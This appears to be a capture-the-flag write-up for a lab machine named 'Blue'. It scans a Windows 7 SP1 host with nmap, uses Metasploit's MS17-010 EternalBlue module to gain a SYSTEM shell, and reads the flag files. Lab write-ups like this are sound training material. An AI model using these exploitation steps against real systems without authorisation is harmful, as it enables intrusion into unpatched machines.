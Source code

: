 ## Box: Blue

## Target IP: `10.10.10.40`

---

### Initial Nmap Scan

Ran:

```bash
sudo nmap -sC -sV -p- --min-rate 10000 10.10.10.40
```

Nmap output:

| Port | Service | Version |
| --- | --- | --- |
| 135 | msrpc | Microsoft Windows RPC |
| 139 | netbios-ssn | Microsoft Windows netbios-ssn |
| 445 | microsoft-ds | Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP) |

Host is Windows 7 Professional SP1.

SMB signing disabled.

---

### Exploitation

Windows 7 SP1 screamed EternalBlue. No point wasting time.

Fired up Metasploit:

```bash
msfconsole
```

Searched:

```bash
search ms17-010
```

Used the EternalBlue exploit.

Set RHOSTS, LHOST, and payload options.

Launched exploit.

Got a Meterpreter session.

Switched to a real shell:

```bash
shell
```

Confirmed:

```bash
whoami
```

Output:

```
nt authority\system
```

Game over.

---

### Flags

Navigated:

```bash
cd C:\Users\haris\Desktop
type user.txt.txt
```

Grabbed user flag.

Then:

```bash
cd C:\Users\Administrator\Desktop
type root.txt.txt
```

Grabbed root flag. Very easy box
